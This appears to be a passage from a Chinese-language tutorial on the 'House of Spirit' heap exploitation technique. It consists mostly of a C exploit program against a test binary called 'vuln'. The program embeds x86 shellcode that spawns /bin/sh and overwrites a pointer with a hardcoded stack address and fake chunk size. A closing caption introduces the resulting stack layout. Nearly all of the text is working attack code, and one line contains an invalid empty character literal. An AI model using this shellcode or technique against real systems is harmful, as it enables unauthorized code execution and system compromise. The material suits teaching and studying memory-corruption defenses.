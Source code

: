 ``` c
/* Program to exploit executable 'vuln' using hos technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#define VULNERABLE "./vuln"
/* Shellcode to spwan a shell. Size: 48 bytes - Includes Return Address overwrite */
char scode[] =
        "\xeb\x0e\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xb8\xfd\xff\xbf\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90";
int main( void )
{
        int i;
        char * p;
        char argv1[54];
        char * argv[] = { VULNERABLE, argv1, NULL };
        strcpy(argv1,scode);
        /* Overwrite ptr1 in vuln with stack address - 0xbffffdf0. Overwrite local_age in vuln with chunk size - 0x30 */
        strcpy(argv1+48,"\xf0\xfd\xff\xbf\x30"); 
        argv[53] = '';
        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
攻击者提供参数后，漏洞程序的栈布局如下所示：    